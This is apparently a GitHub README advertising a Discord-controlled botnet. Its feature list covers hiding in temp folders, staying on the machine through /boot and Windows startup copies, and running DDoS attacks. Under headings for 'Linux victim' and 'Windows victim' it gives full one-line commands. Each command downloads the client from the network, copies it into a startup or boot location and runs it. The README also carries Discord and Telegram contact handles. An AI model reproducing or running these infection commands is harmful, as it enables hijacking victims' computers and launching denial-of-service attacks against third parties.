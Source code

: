 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850054-f1e4bfbb-cd76-4914-99e4-f37f849dba99.png)

https://discord.gg/vCdPTjD6rZ

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849645-908bde50-bd0a-49fa-9a8a-1f948953677e.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe && copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && WClient.exe

# Credits
Orig - batu.sh#9675

TG @udbnt
